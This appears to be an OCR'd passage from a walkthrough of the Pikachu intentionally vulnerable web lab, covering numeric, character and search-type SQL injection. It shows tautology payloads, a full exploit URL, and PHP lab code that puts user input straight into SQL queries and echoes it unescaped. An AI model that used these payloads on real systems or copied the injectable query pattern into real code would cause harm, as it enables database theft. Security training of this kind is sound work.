Capture packets, view post parameters



construct payload

1' or '1' = '1 error

1 or 1 =1 No error is reported, there is digital injection



Character injection (get)
Server-side core code
  
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
  
exploit

construct payload

http://<IP address!!!>/pikachu/vul/sqli/sqli_str.php?name=1' or '1' ='1&submit=%E6%9F%A5%E8%AF%A2



search injection
Server-side core code

if(isset($_GET['submit']) && $_GET['name']!=null){

     //There is no processing here, just spell it into the select
     $name=$_GET['name'];

     //The variable here is a fuzzy match, which needs to be closed
     $query="select username,id,email from member where username like '%$name%'";
     $result=execute($link, $query);
     if(mysqli_num_rows($result)>=1){
         // Easter eggs: There is also an xss here
         $html2.="<p class='notice'>The results of {$_GET['name']} in the username are as follows:<br />";
         while($data=mysqli_fetch_assoc($result)){
             $uname=$data['username'];
             $id=$data['id'];
             $email=$data['email'];
             $html1.="<p class='notice'>username:{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
         }
     }else{
